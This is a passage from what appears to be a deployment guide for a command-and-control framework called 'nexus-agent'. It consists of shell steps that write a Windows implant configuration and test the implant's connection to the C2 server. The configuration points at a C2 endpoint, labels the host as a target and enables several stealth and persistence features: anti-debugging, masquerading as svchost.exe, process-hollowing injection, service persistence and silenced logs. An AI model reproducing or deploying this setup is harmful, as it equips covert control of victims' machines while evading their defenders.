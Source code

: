 ```bash
console_output = false
EOF
```

#### Create Windows Agent Config
```bash
# Create Windows agent configuration
cat > config/agent-windows.toml << 'EOF'
[server]
endpoint = "https://c2.yourdomain.com:8443"
verify_tls = true
retry_interval = 30
max_retries = 5

[agent]
agent_id = "windows-agent-001"
hostname = "target-win-01"
platform = "windows"
arch = "x86_64"

[communication]
protocol = "grpc"
compression = true
encryption = true
heartbeat_interval = 60

[security]
evasion_enabled = true
anti_debug = true
process_name = "svchost.exe"
fiber_execution = true

[windows]
injection_technique = "ProcessHollowing"
persistence_method = "Service"

[logging]
level = "error"
file_output = false
console_output = false
EOF
```

### Step 3: Deploy and Test Agents

#### Test Linux Agent (Local)
```bash
# Test agent connectivity
./target/x86_64-unknown-linux-gnu/release/nexus-agent \
  --config config/agent-linux.toml --test-connection

# Expected: "✅ Connection to C2 server successful"
```
